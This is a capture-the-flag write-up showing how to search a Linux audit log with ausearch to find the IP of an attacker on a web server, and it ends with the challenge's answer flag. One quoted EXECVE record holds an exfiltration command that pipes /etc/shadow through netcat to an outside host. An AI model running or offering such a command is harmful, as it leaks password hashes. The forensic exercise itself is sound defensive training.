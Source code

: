 
# I SEe You 

* **Category**: Miscellaneous
* **Points**: 200
* **Challenge**:   We think someone has been attacking our web server, can you help us by finding the IP address of the attacker in our logs? audit.log.gz.
* **Hint #1:** The flag is the IP address of the attacker without any prefixes or braces around it.
* **Hint #2:** Audit logs can be read via the [ausearch](https://linux.die.net/man/8/ausearch) command.

<br />

I started by opening the audit log using ausearch and looking for uniq IP addresses:
```
ausearch -if audit.log | grep -E -o "([0-9]{1,3}[\.]){3}[0-9]{1,3}" | sort | uniq -c

    72 10.0.2.15
   2958 10.0.2.2
      1 2.4.17.1
```

<br />

None of these IP addresses were the the IP were IP we are looking for.  Further research into ausearch suggested that we look at [record types](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/6/html/security_guide/sec-audit_record_types), also reffered to as events.  We also need to us the `-i` option to interpret numeric entities into text.  Lets look at a SOCKADDR record (contains a socket address) using `-m` with and without `-i`:
```
type=SOCKADDR msg=audit(1574163054.175:4519): saddr=02000050000000000000000000000000

# with interpretation:

ausearch -if audit.log -i -m SOCKADDR

type=SOCKADDR msg=audit(11/19/2019 06:30:54.175:4519) : saddr={ fam=inet laddr=0.0.0.0 lport=80 } 
```
<br />

Now that we know how to view IP addresses, we can dig into the record types.  I grabbed all the unique record types and sent them to a file:
```
ausearch -if audit.log | awk {'print $1'} > records.txt
```

<br />

Reasearching each record type, I found the EXECVE record of particular interest.   This is triggered to record arguments of the execve(2) system call, which is a function used to execute a binary executable or a script.  Lets take a look at these records: 
```
ausearch -if audit.log -m EXECVE -i

...<snip>...

type=PROCTITLE msg=audit(11/19/2019 06:31:30.007:46336) : proctitle=/bin/python3 server.py 
type=PATH msg=audit(11/19/2019 06:31:30.007:46336) : item=1 name=/lib64/ld-linux-x86-64.so.2 inode=6204 dev=08:01 mode=file,755 ouid=root ogid=root rdev=00:00 obj=system_u:object_r:ld_so_t:s0 objtype=NORMAL cap_fp=none cap_fi=none cap_fe=0 cap_fver=0 
type=PATH msg=audit(11/19/2019 06:31:30.007:46336) : item=0 name=/bin/sh inode=100737155 dev=08:01 mode=file,755 ouid=root ogid=root rdev=00:00 obj=system_u:object_r:shell_exec_t:s0 objtype=NORMAL cap_fp=none cap_fi=none cap_fe=0 cap_fver=0 
type=CWD msg=audit(11/19/2019 06:31:30.007:46336) :  cwd=/vagrant/website 
type=EXECVE msg=audit(11/19/2019 06:31:30.007:46336) : argc=3 a0=/bin/sh a1=-c a2=cat /etc/shadow|nc 44.68.139.241 3333 
type=SYSCALL msg=audit(11/19/2019 06:31:30.007:46336) : arch=x86_64 syscall=execve success=yes exit=0 a0=0x7f44c0c15870 a1=0x7f44c0b20930 a2=0x7ffeac0bfa60 a3=0x7f44cee4a770 items=2 ppid=2628 pid=5403 auid=ftpuser uid=root gid=root euid=root suid=root fsuid=root egid=root sgid=root fsgid=root tty=(none) ses=2 comm=sh exe=/usr/bin/bash subj=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023 key=(null) 

...snip...
```

We can see from this record that on 11/19, someone attempted to send the contents of the /etc/shadow file to 44.68.139.241 3333 using netcat.  

<br />

## Flag: ACI{44.68.139.241}
